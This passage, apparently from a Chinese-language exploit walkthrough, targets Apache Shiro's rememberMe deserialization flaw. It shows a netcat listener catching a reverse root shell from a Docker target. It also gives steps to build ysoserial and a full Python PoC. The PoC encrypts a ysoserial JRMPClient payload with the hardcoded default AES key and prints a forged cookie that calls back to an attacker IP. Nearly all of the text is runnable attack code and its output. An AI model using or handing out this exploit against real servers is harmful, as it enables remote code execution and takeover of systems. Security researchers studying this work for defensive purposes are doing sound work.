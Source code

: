 监听端口等待shell回连（我这里的样例是docker环境）
```
nc -lvvp 11111
Listening on [0.0.0.0] (family 0, port 11111)
Connection from 59.110.152.168 47274 received!
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@6d5a7848dbef:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## 2x02：学习工具
使用ysoserial进行流量监听，下面是ysoserial的jar包生成，懂得开发同学都懂。
```
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
mvn package -D skipTests
```

## 2x03：how to poc
使用poc代码获得对应的rememberMe的cookie值。
```
# -*- coding:utf-8 -*-
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```
```
D:\bin4xin\code\shiro\shrio-poc\ysoserial\target> python .\shrio-poc.py 47.52.233.92:6666
rememberMe=W8BOhPe8Qdy8FJ5N9genqt4WjZaONr1NQ+dXgDCV1RrGHUwMfd8ljlA9AG64t7vzUesOp7YKsz6EFFHgyrq1qRqUiPFBnEBi/NNNpE2UR8CgMsf1KY2rbBurFv1Gwslv2+SL7hy3YNq9cpPWm5S8o+nJpa6IyI9cZ+n7a+6hjB4Yfnf89u3BLi4AxOXL35SotH2AdSX2iZrWgGAcah9oW21JwpC2zj4YMjsGf2tPYUysP873bYYHuSIohaXf3bcq4YuQajMctVmM3IvjeY5Ggva9QRUvo5B1o0sPNHdXGwn/z9t/KWcSeTWE+Dt2f95a9QjEIoic6s88Tv0SKjY6UdCmTxN3vVE8rs1haiA48R1CuUQQiWa9V28m2qkonX9aUEUl4kTGGvF+Y5eB4MaNTw==
```
